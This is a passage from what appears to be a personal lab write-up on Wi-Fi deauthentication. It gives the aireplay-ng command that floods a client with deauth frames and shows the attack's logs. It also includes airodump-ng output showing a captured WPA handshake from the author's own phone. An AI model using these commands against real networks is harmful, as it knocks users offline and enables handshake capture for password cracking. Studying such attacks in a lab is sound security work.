 - For this we will be using the `aireplay-ng` command, which is a part of the `aircrack-ng` suite. It allows us to send deauthentication frames to the target client.

- In order to do so use the command:

    ```bash
    root@kali:~# aireplay-ng --deauth 100000000 -a <BSSID> -c <CLIENT_MAC> -D wlan0
    ```

  - Remove `-D` if the target network is 2.4GHz Network.

- I tested this on my mobile, and my mobile got disconnected from the network, and it tried to reconnect to the network, but it failed to do so. And, it kept trying to reconnect for a while, but it failed to do so.

- Below are the logs:

    ```bash
    root@kali:~# aireplay-ng --deauth 100000000 -a WIFI_MAC -c MOBILE_MAC -D wlan0
    21:12:19  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [53|68 ACKs]
    21:12:20  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    21:12:20  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    21:12:21  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|64 ACKs]
    21:12:21  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|64 ACKs]
    ```

- To confirm this we also run the `airodump-ng` command again to see how the packets are being lost, along with screenshots of the mobile trying to reconnect to the network:

    ```bash
    root@kali:~# airodump-ng --bssid WIFI_MAC --channel 36 wlan0

    CH 36 ][ Elapsed: 24 s ][ 2025-07-25 21:17 ][ WPA handshake: WIFI_MAC 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    WIFI_MAC  -19  57      236       52    0  36  780   WPA2 CCMP   PSK  WIFI_NAME 

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    WIFI_MAC  MOBILE_MAC  -19    6e- 1e   698     1102  EAPOL  WIFI_NAME     
    WIFI_MAC  DEVICE1_MAC  -55    6e- 6e     0       93                                 
    WIFI_MAC  DEVICE2_MAC  -28    6e-24      0       54 
    Quitting...
    ```
